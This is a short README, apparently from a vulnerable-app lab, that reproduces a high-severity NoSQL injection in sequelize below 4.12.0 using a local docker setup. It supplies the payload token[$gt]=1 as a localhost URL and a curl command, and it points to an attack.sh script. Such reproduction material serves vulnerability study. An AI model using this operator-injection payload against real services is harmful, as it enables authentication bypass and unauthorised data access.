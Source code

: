 # NoSQL Injection @ sequelize
- module : sequelize
- version : <4.12.0
- severity: high
- type: nosql-injection

# Installation

`docker-compose up --build`

# Lunch Attack

- ### Browser [open the browser and enter the following url]
    http://localhost:8000?token[%24gt]=1

## OR

- ### Curl [open the terminal and run the following]
    curl http://localhost:8000?token[%24gt]=1

## OR

- ### Bash [open the terminal in the root dir of this app and run the following]
    bash attack.sh